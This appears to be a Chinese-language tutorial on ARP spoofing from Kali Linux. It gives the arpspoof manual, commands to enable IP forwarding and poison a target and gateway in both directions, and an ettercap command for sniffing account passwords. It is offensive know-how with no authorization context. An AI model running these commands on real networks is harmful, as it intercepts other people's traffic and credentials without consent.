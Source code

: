 ```bash
arp -a #查看本机arp缓存表
```





```bash
名字 
       arpspoof - 截获交换局域网中的数据包

用法
       arpspoof [-i interface] [-c own|host|both] [-t target] [-r] host

描述
       arpspoof通过伪造的ARP响应包改变局域网中从目标主机（或所有主机）到另一个主机（host）的数据包转发路径。这是交换局域网中嗅探网络流量的一种极为有效的方法。
       内核IP转发（或如fragrouter这样的、用户层面的、能完成同样功能的软件）必须提前开启。

参数
       -i interface
              指定要使用的接口（即指定一块网卡）

       -c own|host|both
              指定在恢复ARP配置时使用的硬件地址；当在清理（cleaning up）时，数据包的源地址可以用自己的也可以用主机（host）的硬件地址。
              使用伪造的硬件地址可能导致某些配置下的交换网络、AP网络或桥接网络通信中断，然而它比起默认值————使用自己的硬件地址要工作地更为可靠。

       -t target
              指定一个特殊的、将被ARP毒化的主机（如果没有指定，则认为是局域网中所有主机）。重复可以指定多个主机。

       -r     毒化两个主机（目标和主机（host））以捕获两个方向的网络流量。（仅仅在和-t参数一起使用时有效）

       host   host是你想要截获数据包的主机 (通常是网关)。
```



进行arp欺骗前使用如下命令开启ip转发功能（kali下）

```bash
echo 1 > /proc/sys/net/ipv4/ip_forward
```

/proc/sys/net/ipv4/ip_forward是配置文件，默认内容为0，表示IP转发是关闭的，，使用上述命令将该配置文件的内容改写为1，表示开启IP转发。开启IP转发后 流量会经过kali的主机而后再去到目标所以这时开启arpspoof 那么目标就不会断网，因为流量通过了kali主机那么我们就可以拦截相关数据。



### 常用命令：

开启IP转发之后，同样使用断网攻击的命令进行ARP欺骗：

```bash
 arpspoof   -i   网卡   -t    目标IP    网关
 反向欺骗：
 arpspoof   -i   网卡   -t    网关    目标IP
```



```bash
ettercap -Tq -i eth0 #进行账号密码嗅探
```

